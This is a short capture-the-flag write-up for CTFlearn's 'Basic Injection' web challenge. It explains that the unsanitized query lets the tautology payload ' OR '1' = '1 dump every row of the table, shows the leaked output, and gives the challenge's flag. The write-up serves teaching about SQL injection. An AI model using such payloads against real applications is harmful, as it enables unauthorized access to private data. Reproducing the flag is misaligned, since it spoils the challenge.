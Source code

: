```yaml
---
title: "Basic Injection"
categories:
  - CTFlearn
tags:
  - CTFlearn
  - web
---
```


See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)

Don't know where to begin? Check out CTFlearn's [SQL Injection Lab](https://ctflearn.com/lab/sql-injection-part-1)

Solution: 

Original Query: `SELECT * FROM webfour.webfour where name = '$input'`

The input isnt sanitized so you can get all the data from the table by first completing part of the query with `'` and then using the or condition with a true statement such as '1'='1'.

In this case you can do it as `' OR '1' = '1` . You dont need the last ' because it already finishes it.


```
Original Query: SELECT * FROM webfour.webfour where name = '$input'

Your Resulting Query: SELECT * FROM webfour.webfour where name = '' OR '1' = '1'

Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
```

And there's the flag.

Flag: `CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`